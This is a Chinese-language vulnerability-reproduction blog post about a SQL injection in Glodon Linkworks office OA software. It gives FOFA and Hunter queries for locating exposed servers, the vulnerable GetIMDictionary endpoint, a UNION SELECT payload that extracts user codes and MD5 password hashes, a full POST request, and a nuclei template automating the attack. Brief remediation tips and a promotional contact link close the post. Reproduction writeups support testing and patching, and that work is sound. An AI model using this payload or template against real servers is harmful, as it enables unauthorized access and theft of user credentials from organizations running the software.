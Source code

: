 # 原创
：  【漏洞复现】广联达 Linkworks办公OA SQL注入

# 【漏洞复现】广联达 Linkworks办公OA SQL注入

### 广联达OA介绍

广联达办公OA是一款综合办公自动化解决方案，旨在提高组织内部的工作效率和协作能力。它提供了一系列功能和工具，帮助企业管理和处理日常办公任务、流程和文档。

### 资产收集

fofa：fid=”/yV4r5PdARKT4jaqLjJYqw==”或者body=”/Services/Identification/Server”<br/> hunter：web.body=”/Services/Identification/Server/“

### 漏洞点

广联达OA SQL注入漏洞位于 /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary 接口下，直接访问，页面会提示缺少参数key，说明存在SQL注入

### 漏洞复现

payload：

```
key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --

```

报文：

```
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: xxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

key=1' UNION ALL SELECT top 2 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --

```

效果如下：

### nuclei poc

```
id: guanglianda-sql

info:
  name: guanglianda-sql
  author: xxxx
  severity: info
  description: description
  reference:
    - https://
  tags: tags

requests:
  - raw:
      - |-
        POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Connection: close
        Upgrade-Insecure-Requests: 1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 78

        key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - value
      - type: status
        status:
          - 200

```

### nuclei验证

### 修复建议

1.访问/Webservice/IM/Config/ConfigService.asmx/GetIMDictionary 地址的时候，可以让报错信息模糊化<br/> 2.对key参数的传参进行过滤

还没看够？可以关注

[+V【zkaq222】或者下面的扫码不然通不过哦，免费领取安全学习资料包！（私聊进群一起学习，共同进步）腾讯文档-在线文档<img alt="icon-default.png?t=N7T8" src="https://csdnimg.cn/release/blog_editor_html/release2.3.6/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N7T8"/>https://docs.qq.com/doc/DYmVETWlZemh0Ymdv](https://docs.qq.com/doc/DYmVETWlZemh0Ymdv)
